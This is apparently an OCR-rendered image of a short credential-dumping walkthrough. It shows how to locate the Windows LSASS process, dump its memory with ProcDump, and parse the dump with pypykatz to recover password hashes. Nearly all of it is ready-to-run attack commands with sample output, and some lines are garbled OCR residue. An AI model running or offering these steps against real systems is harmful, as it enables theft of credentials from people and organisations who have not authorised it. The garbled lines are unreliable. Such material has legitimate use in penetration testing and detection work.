 # Dump LSASS process and parse it with Pypykatz


1. Locate the PID of the lsass.exe process.

```bash
PS C:\> tasklist /fi "imagename eq lsass.exe"
akit/i"mgnm qlasee
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
lsass.exe                      564 Services                   0     45,456 K
```

2. Dump the process to a file with ProcDump

```bash
PS C:\> .\procdump64.exe -accepteula -ma 564 lsass.dmp
\rcup4ee-cpel m 6 ssdp
ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:20:38] Dump 1 initiated: C:\lsass.dmp
[14:20:38] Dump 1 writing: Estimated dump file size is 46 MB.
[14:20:38] Dump 1 complete: 46 MB written in 0.1 seconds
[14:20:38] Dump count reached.
```

3. Install Pypykatz.

```bash
sudo pip3 install pypykatz  
```

4. Run pypykatz to parse the dump and get hashes.

```bash
pypykatz lsa minidump lsass.dmp
```